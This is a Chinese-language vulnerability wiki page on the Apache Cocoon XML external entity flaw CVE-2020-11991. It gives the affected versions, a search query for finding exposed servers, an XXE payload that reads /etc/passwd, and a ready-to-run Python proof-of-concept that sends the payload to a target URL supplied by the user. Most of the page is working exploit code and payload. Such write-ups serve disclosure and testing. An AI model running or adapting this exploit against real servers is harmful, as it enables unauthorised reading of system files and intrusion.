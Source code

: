 # Apache Cocoon XML注入 CVE-2020-11991

# Apache Cocoon XML注入 CVE-2020-11991

## 漏洞描述

9月11日 Apache 软件基金会发布安全公告，修复了 Apache Cocoon xml外部实体注入漏洞（CVE-2020-11991）。

Apache Cocoon 是一个基于 Spring 框架的围绕分离理念建立的构架，在这种框架下的所有处理都被预先定义好的处理组件线性连接起来，能够将输入和产生的输出按照流水线顺序处理。用户群：Apache Lenya、Daisy CMS、Hippo CMS、Mindquarry等等，Apache Cocoon 通常被作为一个数据抽取、转换、加载工具或者是系统之间传输数据的中转站。CVE-2020-11991 与 StreamGenerator 有关，在使用 StreamGenerator 时，代码将解析用户提供的 xml。攻击者可以使用包括外部系统实体在内的特制 xml 来访问服务器系统上的任何文件。

## 漏洞影响

```
Apache Cocoon <= 2.1.12
```

## 网络测绘

```
app="Apache-Cocoon"
```

## 漏洞复现

向**/v2/api/product/manger/getInfo**  POST如下内容

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Cocoon <= 2.1.12                                  \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-11991                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/v2/api/product/manger/getInfo"
    data = """
        <!--?xml version="1.0" ?-->
        <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
        <userInfo>
        <firstName>John</firstName> 
        <lastName>&ent;</lastName>
        </userInfo>
    """
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-type": "text/xml"
    }

    response = requests.request("POST", url=vuln_url, data=data, headers=headers, timeout=20)
    if "/bin/bash" in response.text:
        print("\033[32m[o] 含有CVE-2020-11991漏洞，响应为{}\033[0m".format(response.text))
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


